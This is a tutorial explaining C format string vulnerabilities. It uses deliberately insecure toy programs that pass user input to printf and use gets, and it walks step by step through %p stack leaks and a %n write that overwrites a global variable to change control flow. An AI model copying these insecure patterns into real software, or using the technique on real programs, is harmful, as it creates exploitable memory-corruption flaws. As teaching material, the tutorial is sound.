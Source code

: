 # Format String Vulnerability

Format string vulnerabilities silly bug that is due to the poor coding practice
of the programmer. If an programmer passes an attacker controlled buffer as an
argument to a `printf` call (or any format string related function, e.g `sprintf,
fprintf`), attacker can perform write to arbitrary memory address.  

To understand what I am talking about, take a look at the below example.

```C 
int main(int argc, char** argv) { 
    char buffer[100]; 
    strcpy(buffer, argv[1]); 
    printf(buffer); 
    return 0; 
} 
```

`printf` takes variable number of
arguments and the `format specifier` identifies how many arguments it **should**
access and what kind of data is stored onto that. To read how it takes variable
number of argument refer
[this](https://www.tutorialspoint.com/cprogramming/c_variable_arguments.htm).
And to read more about `format specifiers` refer
[this](http://www.cplusplus.com/reference/cstdio/printf/).

In the above mentioned program if you pass **sane** input like your name. e.g
`./string0 Rohit`. You will get your name on the output.  But attacker do not
always thinks of passing the sane output to the program.  Suppose you passed, lets
say `%x` to the program, since attackers knows that first argument to the printf must
be format specifier, if it is not supplied internally( that is through the
program), a malformed format specifier may list that out the content on the
stack.

:astonished: Attacker can the see the content of STACK.

### See Stack's Content
Lets see that in action. Try doing this:
```bash
$ ./string0 "%p %p %p %p %p"
0xffffd7c9 0x64 0xf0b5ff 0xffffd58e 0x1
$ 
```
Hey what just happened? Attacker's mind  :facepunch: you in the face.
`%p` is used to print the content of the memory in hexadecimal and that just
happened. Attacker fooled **printf** to print the content of memory by not giving
sane input but `format specifier` as input. This is termed as format string
vulnerability.

### What else we can do?
It This is not just limited to displaying the content in memory. This vulnerability
allows the attacker to perform writes to arbitrary memory.
To understand how the writes are actually happening, we need to understand the
concept of `%n`. This format specifier allows the printf to write to memory
location specified by one of its argument.
e.g  
```C
printf("rohit%n", &i);
printf("%d", i);   //outputs to 5 == len(rohit)
```
In brief `%n` writes the number of characters printed so far get saved to `i`.  

Now we have two things in mind:
* Copy our own format specifier in printf.
* Write to some memory location onto stack(or some variable).

### Towards actual exploit. :metal:
Lets try to identify after how many 4 bytes memory locations, we are able to get
back to the buffer. So inorder to do it. I will put say `AAAA` in the beginning
of the exploit string. e.g  
``./string1 'AAAA %p %p %p %p %p %p %p %p %p %p %p %p'``
Output  
`AAAA 0xffffd7af 0x64 0xf0b5ff 0xffffd57e 0x1 0xc2 0xffffd674 0xffffd57e
0xffffd680 0x41414141 0x20702520 0x25207025`
Notice, `0x41414141` third to last. This is nothing but the hex of ASCII('A').
This means we reached the buffer after 9 %p and 10th one is buffer location. 
You may need to do several hit and trials in order to identify starting location
of buffer and it might not be same as mine (10th location).

```C
#include<stdio.h>
#include<string.h>
#include<stdio.h>

int myvar;

int main(int argc, char** argv)
{
    char buffer[100];
    gets(buffer);
    printf(buffer);
    if(myvar)
        printf("Cool you changed it .. :) ");
    return 0;
}
```
Now I will demonstrate Change of control flow using the techniques we have just
learned. Consider the above mentioned code. Find out the address of the buffer
from the current stack location using format string vuln.    
`echo -e 'AAAA %p %p %p %p %p %p %p %p %p %p %p %p' | ./string1`  
Output:  
`AAAA 0x1 0xf7ffd918 0xf0b5ff 0xffffd59e 0x1 0xc2 0xffffd694 0xffffd59e
0xffffd69c 0x41414141 0x20702520 0x25207025`.  
Hey its again the same the 10th location. :metal:  

Now consider,    
`echo -e 'AAAA %p %p %p %p %p %p %p %p %p %n' | ./string1`
This above command will write `len(AAAA %p %p %p %p %p %p %p %p %p ) --> 32` to
to the memory pointed by the 10th argument. But the 10th argument is nothing but
the `0x41414141` so it will try to write onto the memory address pointed by
`0x41414141` the value 32. Since it could be **read-only** memory, so you might
get the `Segmentation Fault`. What about putting some sensible address onto the
buffer instead of `0x41414141`. If we do so, then %n will write to that memory
pointed by that location.
Why not getting the address of `myvar`. Since it is global, we can get the
address of globals before the running the program.  
We will use ,  
`objdump -t ./string1 | grep myvar`      
`0804a028 g     O .bss	00000004              myvar`    
The first data column contains the address for the `myvar`.   


**Crafting the exploit** to change the variable content then change the control
flow.  
`` echo -e `python -c "import struct; print struct.pack('<I',0x0804a028)"`"%p %p
%p %p %p %p %p %p %p %n" | ./string1``  
Output:  
``(0x1 0xf7ffd918 0xf0b5ff 0xffffd59e 0x1 0xc2 0xffffd694 0xffffd59e 0xffffd69c
Cool you changed it .. :)``

:cool: We have exploited the binary.

#### What we have learnt with this?
Format string vulnerability allows to write to arbitrary location in programs
memory.





